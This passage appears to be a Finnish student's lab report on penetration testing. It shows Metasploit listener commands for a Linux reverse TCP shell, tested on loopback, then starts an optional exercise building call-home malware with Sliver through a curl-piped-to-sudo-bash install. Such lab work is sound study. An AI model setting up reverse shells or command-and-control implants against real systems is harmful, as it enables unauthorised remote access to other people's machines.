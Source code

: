 Tämän jälkeen meidän pitää tehdä kuuntelija msfconsolessa jotta me saadaan vastausta ja päästään oikeasti testaamaan tätä reverse shelliä. Komennoilla me luodaan kuuntelija:

```sh
use exploit/multi/handler
set payload linux/x64/shell/reverse_tcp
set LHOST 127.0.0.1
set LPORT 4444
run
```

Tämän jälkeen ei tarvinnut enään kuin vaan avata toinen terminali, ajaa tiedosto ja reverse shelli tapahtui. Olin ottanu testin ajaksi koneen pois netistä, niin piti käyttää testissä loopback osoitetta ja kahta terminalia.

Kuvasta kuitenkin näkee, että yhteys muodostui ja sitä testsinkin, kunnes prosessin sulki, niin reverse shell sulkeutui myös.

![alt text](assets/TT25/TT25-005/image9.png)

[(Dissanayaka 23.3.2025)](https://hacksland.net/reverse-tcp-shell-with-metasploit/)

---

## h) Vapaaehtoinen: Tee Sliver-työkalulla haittaohjelma, joka soittaa kotiin

Eli tässä lähdin asentamaan sliveriä komennolla:

```sh
curl https://sliver.sh/install | sudo bash
```
